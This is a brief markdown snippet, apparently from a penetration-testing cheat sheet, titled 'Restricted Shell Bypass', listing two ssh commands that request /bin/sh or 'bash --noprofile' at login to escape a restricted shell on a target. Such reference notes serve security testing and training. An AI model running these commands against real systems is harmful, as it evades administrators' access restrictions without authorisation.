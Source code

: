 # Restricted Shell Bypass

```
ssh username@IP -t "/bin/sh"
ssh username@IP -t "bash --noprofile"
```
